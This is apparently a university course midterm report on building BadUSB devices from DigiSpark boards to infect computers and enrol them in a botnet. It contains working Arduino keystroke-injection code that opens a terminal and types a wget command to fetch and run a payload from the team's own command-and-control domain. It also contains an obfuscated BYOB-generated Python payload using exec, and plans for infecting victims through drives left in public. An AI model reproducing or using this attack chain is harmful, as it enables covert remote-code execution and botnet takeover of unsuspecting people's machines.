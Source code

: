 # CSUS CSC154: Project Midterm Report

## Objective  
The objective of this project is to create BadUSB devices, that upon plugin, infect victim computers with malware configured to join a botnet.

### BadUSB  
To create our BadUSB devices we'll be using the [DigiSpark](http://digistump.com/products/1) development board by [Digistump](http://digistump.com/). These devices will be reconized as USB keyboards by the victims' machines, and will execute keystrokes to deliver our payload.

### Botnet  
For our botnet we're currently still exploring a handful of open source frameworks. The leading contender at the moment is [Build Your Own Botnet](https://github.com/malwaredllc/byob). Other frameworks we're looking into include [GoBot2](https://github.com/SaturnsVoid/GoBot2), [UBoat](https://github.com/Souhardya/UBoat), and [Loki](https://github.com/Pure-L0G1C/Loki). There may be other frameworks we explore as they're discovered. Our ultimate goal is an easily deployed and managed *command and control server*, and the ability to generate cross platform compatible clients.


## Progress  

### DigiSpark  
Thus far, we've purchased our BadUSB (DigiSpark) devices via Amazon. We have 12 of these devices spread across our members. They cost about $3 dollars each. 

![amazon](./images/amazon.png)
**Figure 1:** DigiSpark boards on Amazon.

In order to program our USB devices we've installed the [Arduino IDE](https://www.arduino.cc/en/Main/Software).  
![arduino_download](./images/arduino_download.png)
**Figure 2:** Download the Arduino IDE.

We've then configured the Arduino IDE to include the DigiSpark board, so that we may use the `DigiKeyboard.h` library.   
![digistump_json](./images/digistump_json.png)
**Figure 3:** Add DigiStump board manager url to configuration.

![digistump_boardmanager](./images/digistump_boardmanager.png)
**Figure 4:** Board manager downloading DigiStump's board libraries.

![digistump_default](./images/digistump_setboard.png)
**Figure 5:** Set board to Digispark Default.

The following code is what we've developed thus far to infect Linux machines upon plugin.

```c
#include "DigiKeyboard.h"

/**
 * 
 * This is an attack for Linux machines, but it's more of a
 * proof of concept right now.
 *
**/

void setup() {
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_T , MOD_CONTROL_LEFT | MOD_ALT_LEFT);
  DigiKeyboard.delay(600);
  
  DigiKeyboard.print("cd /tmp && wget https://sheep.casa/payloads/linux_payload.py && python ./linux_payload.py");
  DigiKeyboard.delay(200);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
}


void loop() {
  
}
```

As you can see above, the code delays for two seconds to allow the machine to register the device. After that it executes keystrokes to open up the terminal, and waits .6 seconds. Next it executes shell commands to navigate to the `/tmp` directory, download the appropriate payload from our server, and execute it.


### Command and Control Server  
* [Digital Ocean](https://digitalocean.com)
* [Domain Name](https://sheep.casa)
* [BYOB](https://github.com/malwaredllc/byob)

We've created a VPS on Digital Ocean to run our C&C server. We're using an Ubuntu 18.04 droplet at the cost of $5 per month. Additionally, we've purchased the domain `sheep.casa`, and directed it towards our C&C server.

![digitalocean](./images/digitalocean.png)
**Figure 6:** Botnet C&C server droplet on Digital Ocean.


In order to host our payloads, we've installed Apache 2 to host our files.

![sheep](./images/sheep.png)
**Figure 7:** ASCII sheep, just for fun.

![payload_directory](./images/payload_directory.png)
**Figure 8:** `/payloads` directory hosting our malicious files.


### Payloads
* Linux




Below is our `linux_payload.py` file generated by BYOB.
```python
import sys,zlib,base64,marshal,json,urllib
if sys.version_info[0] > 2:
    from urllib import request
urlopen = urllib.request.urlopen if sys.version_info[0] > 2 else urllib.urlopen
exec(eval(marshal.loads(zlib.decompress(base64.b64decode('eJwrtmBgYCgtyskvSM3TUM8oKSmw0tcvzkhNLdBLTixOtDI0NrYACpQkpqcWFesXJCfqFVSqa+oVpSamaGgCAFaFE3g=')))))
```


## Todo
We've yet to configure our BadUSB devices to infect Windows or OSX machines. Additionally, we need to develop payloads for Windows and OSX to deliver via our BadUSB devices once they're configured. Across the team we should already have computers running each OS to begin our development. 

Ideally, the same BadUSB device would be able to infect Windows, OSX, and Linux. However, we're still uncertain that this is technically achievable given the way USB functions. Currently we do not have knowledge of how to detect which operating system a victim's computer is running. We may need to configure different devices to be plugged in depending on the victim's machine. However, we will still explore how one device may be used to infect all OS(s). An option we're exploring is simply loading all of our payloads onto one device, and attempting to execute each of them quietly until the machine is infected.

A different device per OS would be perfectly acceptable in an attack scenario in which the attacker has physical access to the victim's machine. The devices are cheap and small, so carrying three of them should be no issue. However, for attack scenarios in which the drive is left in a public place for a victim to find, the ability to infect any OS would greatly improve the success rate.

